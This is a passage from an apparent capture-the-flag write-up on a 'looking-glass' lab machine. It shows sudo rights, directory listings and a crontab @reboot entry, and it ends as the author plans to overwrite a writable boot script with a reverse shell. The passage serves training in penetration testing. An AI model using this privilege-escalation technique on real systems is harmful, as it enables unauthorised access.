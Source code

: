 Let's check our privileges and our home directory:

```
jabberwock@looking-glass:~$ sudo -l
Matching Defaults entries for jabberwock on looking-glass:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User jabberwock may run the following commands on looking-glass:
    (root) NOPASSWD: /sbin/reboot

jabberwock@looking-glass:~$ ls -la
total 44
drwxrwxrwx 5 jabberwock jabberwock 4096 Jul  3  2020 .
drwxr-xr-x 8 root       root       4096 Jul  3  2020 ..
lrwxrwxrwx 1 root       root          9 Jul  3  2020 .bash_history -> /dev/null
-rw-r--r-- 1 jabberwock jabberwock  220 Jun 30  2020 .bash_logout
-rw-r--r-- 1 jabberwock jabberwock 3771 Jun 30  2020 .bashrc
drwx------ 2 jabberwock jabberwock 4096 Jun 30  2020 .cache
drwx------ 3 jabberwock jabberwock 4096 Jun 30  2020 .gnupg
drwxrwxr-x 3 jabberwock jabberwock 4096 Jun 30  2020 .local
-rw-r--r-- 1 jabberwock jabberwock  807 Jun 30  2020 .profile
-rw-rw-r-- 1 jabberwock jabberwock  935 Jun 30  2020 poem.txt
-rwxrwxr-x 1 jabberwock jabberwock   38 Jul  3  2020 twasBrillig.sh
-rw-r--r-- 1 jabberwock jabberwock   38 Jul  3  2020 user.txt
```

We got the first flag on here, also there is a poem and a script too, we can reboot the machine using sudo, let's check `/etc/crontab` to check what happens when the box boots up:

```
jabberwock@looking-glass:~$ cat /etc/crontab
# /etc/crontab: system-wide crontab
# Unlike any other crontab you don't have to run the `crontab'
# command to install the new version when you edit this file
# and files in /etc/cron.d. These files also have username fields,
# that none of the other crontabs do.

SHELL=/bin/sh
PATH=/usr/local/sbin:/usr/local/bin:/sbin:/bin:/usr/sbin:/usr/bin

# m h dom mon dow user	command
17 *	* * *	root    cd / && run-parts --report /etc/cron.hourly
25 6	* * *	root	test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.daily )
47 6	* * 7	root	test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.weekly )
52 6	1 * *	root	test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.monthly )
#
@reboot tweedledum bash /home/jabberwock/twasBrillig.sh
```

On reboot, the script on our home directory runs, since we can modify it, we can exploiting by making a backup of the original script and replacing it with a reverse shell:

